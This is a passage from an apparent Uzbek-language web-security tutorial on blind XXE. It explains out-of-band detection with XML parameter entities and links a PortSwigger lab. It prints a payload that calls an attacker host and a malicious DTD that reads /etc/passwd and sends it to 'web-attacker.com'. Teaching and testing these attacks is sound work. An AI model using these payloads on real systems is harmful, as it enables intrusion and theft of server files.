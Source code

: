 Ikkinchidan, parametr entitylari odatdagi &-ning o'rniga % belgisi yordamida qilinadi:

```xml
%myparameterentity;
```

Bu digani siz Blind XXE xujumini, out-of-band aniqlash usuli va XML parametr entitilari bunday ko'rinishda bo'lgan holatidagi payload yozib amalga oshira olasiz:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Ushbu XXE payload xxe deb nomlangan XML parametr entityni e'lon qiladi va keyin DTD ichidagi entitydan foydalanadi. Bu xujum muvaffaqiyatli bo'lganligini tasdiqlashga DNS lookup va hakerning domeniga kelgan HTTP so'rov sabab bo'ladi.

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [XML parametr entitylari orqali out-of-band o'zaro tasiri yordamida blind XXE  ≫](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)
{% endhint %}

## <mark style="color:yellow;">Olinadigan ma'lumotlarni out-of-band orqali olish uchun Blind XXE dan foydalanish</mark> <a href="#blind-xxe-ni-siqib-chiqariladigan-out-of-band-malumotlarini-exploit-qilish" id="blind-xxe-ni-siqib-chiqariladigan-out-of-band-malumotlarini-exploit-qilish"></a>

Blind XXE zaifliklarini out-of-band orqali aniqlash bu juda yaxshi ammo bu zaiflik sizga uni qanday qilib exploit qilish mumkinligini ko'rsatmasligi mumkin. Haker maxfiy ma'lumotlarni olishni hohlayd. Bunga Blind XXE zaifligi orqali erishish mumkin, ammo bu uchun haker o'zi boshqaradigan serverga zararli DTD-ni joylashtirishi va keyin tashqi DTD-ni tarmoq ichidagi XXE payloadi ichidan ishga tushirishi kerak.

/etc/passwd fayli tarkibini o'chirish uchun zararli DTD misoli quyidagicha:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Ushbu DTD quyidagilarni bajaryapti:

* `file` nomli XML parametr entitysini e'lon qilyapti va unining qiymati sifatida  `/etc/passwd` faylini belgilayapti
* `Exfiltrate` deb nomlangan boshqa XML parametr, entityning dinamik deklaratsiyasini o'z ichiga olgan `eval` deb nomlangan XML parametr entityni e'lon qildi. `Exfiltrate` entitysi URL so'rovlar qatoridagi `file` entitysining qiymatini o'z ichiga olgan haker serveriga HTTP so'rov yuborish orqali aniqlanadi.
* `eval` entitysi `exfiltrate` entitysini ishlashiga sabab bo'ladi.
* `exfiltrate` URL ni aniqlaydi va so'rov yuboradi

Keyin haker zararli DTD ni o'zi boshqaradigan tizimga joylashtirishi kerak, odatda uni o'z serveriga yuklash orqali amalga oshiradi. Masalan, haker zararli DTD ga quyidagi URL manzilini kiritishi mumkin:
